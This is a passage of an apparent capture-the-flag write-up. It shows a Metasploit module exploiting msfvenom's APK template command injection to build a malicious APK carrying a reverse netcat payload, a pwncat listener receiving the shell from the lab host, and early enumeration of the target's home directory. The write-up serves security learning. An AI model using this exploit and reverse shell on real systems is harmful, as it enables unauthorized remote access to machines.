 ```plaintext
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > options

Module options (exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  msf.apk          yes       The APK file name

Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun0             yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**

Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > run

[+] msf.apk stored at /home/cyfun/.msf4/local/msf.apk
```

Then we select `android`, specify our template and set whatever a lhost.

On our machine we just launch a listener:

```plaintext
$ pwncat -l 4444 -vv
INFO: Listening on :::4444 (family 10/IPv6, TCP)
INFO: Listening on 0.0.0.0:4444 (family 2/IPv4, TCP)
INFO: Client connected from 10.129.77.135:43478 (family 2/IPv4, TCP)
id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
```

## System exploitation

Let's see where we are and locate the flag:

```plaintext
$ ls -lhA
total 20K
drwxrwxr-x 2 kid kid 4.0K Feb  3 07:40 __pycache__
-rw-rw-r-- 1 kid kid 4.4K Feb  3 11:03 app.py
drwxrwxr-x 3 kid kid 4.0K Feb  3 07:40 static
drwxrwxr-x 2 kid kid 4.0K Feb  3 07:40 templates

$ pwd
/home/kid/html

$ ls -lhA ..
total 52K
lrwxrwxrwx 1 root kid    9 Jan  5 20:31 .bash_history -> /dev/null
-rw-r--r-- 1 kid  kid  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 kid  kid 3.7K Feb 25  2020 .bashrc
drwxrwxr-x 3 kid  kid 4.0K Feb  3 07:40 .bundle
drwx------ 2 kid  kid 4.0K Feb  3 07:40 .cache
drwx------ 4 kid  kid 4.0K Feb  3 11:49 .gnupg
drwxrwxr-x 3 kid  kid 4.0K Feb  3 07:40 .local
```